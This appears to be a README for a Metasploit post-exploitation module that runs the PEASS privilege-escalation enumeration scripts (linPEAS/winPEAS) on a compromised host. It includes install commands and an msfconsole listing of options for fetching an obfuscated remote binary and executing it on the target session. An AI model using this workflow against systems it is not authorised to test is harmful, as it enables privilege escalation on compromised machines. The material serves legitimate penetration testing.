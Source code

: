 # PEASS Post Exploitation Module for Metasploit

You can use this module to **automatically execute a PEASS script from a meterpreter or shell session obtained in metasploit**.

## Manual Installation
Copy the `peass.rb` file to the path `modules/post/multi/gather/` inside the metasploit installation.

In Kali: `sudo cp ./peass.rb /usr/share/metasploit-framework/modules/post/multi/gather/`

Now you can do `reload_all` inside a running msfconsole or the next time you launch a new msfconsole the peass module will be **automatically loaded**.

## How to use it
```
msf6 exploit(multi/handler) > use post/multi/gather/peass
msf6 post(multi/gather/peass) > show info

       Name: Multi PEASS launcher
     Module: post/multi/gather/peass
   Platform: BSD, Linux, OSX, Unix, Windows
       Arch: 
       Rank: Normal

Provided by:
  Carlos Polop <@carlospolopm>

Compatible session types:
  Meterpreter
  Shell

Basic options:
  Name        Current Setting                                                           Required  Description
  ----        ---------------                                                           --------  -----------
  PARAMETERS                                                                            no        Parameters to use in the execution of the script
  PASSWORD    qzke5he7u5n6ijcxhlnj2bc2o556xool                                          no        Password to encrypt and obfuscate the script (randomly generated). The length must be 32B. If no password is set, only base64 will be used.
  SESSION                                                                               yes       The session to run this module on.
  TEMP_DIR                                                                              no        Path to upload the obfuscated PEASS script. By default "C:\Windows\System32\spool\drivers\color" is used in Windows and "/tmp" in unix.
  TIMEOUT     900                                                                       no        Timeout of the execution of the PEASS script (15min by default)
  URL         https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/wi  yes       Path to the PEASS script. Accepted: http(s):// URL or absolute local path. Linpeas: https://raw.githubusercontent.com/carlospolop/PEASS-ng
              nPEASexe/binaries/Obfuscated%20Releases/winPEASany.exe                              /master/linPEAS/linpeas.sh

Description:
  This module will launch the indicated PEASS (Privilege Escalation 
  Awesome Script Suite) script to enumerate the system. You need to 
  indicate the URL or local path to LinPEAS if you are in some Unix or 
  to WinPEAS if you are in Windows.

References:
  https://github.com/carlospolop/PEASS-ng
  https://www.youtube.com/watch?v=9_fJv_weLU0
```

The options are pretty self-explanatory. Just notice that you can set parametes like "-h" in `PARAMETERS` and then linpeas/winpeas will just show the help (*just like when you execute them from a console*).

**IMPORTANT**: You won't see any result until the execution of the script is completed.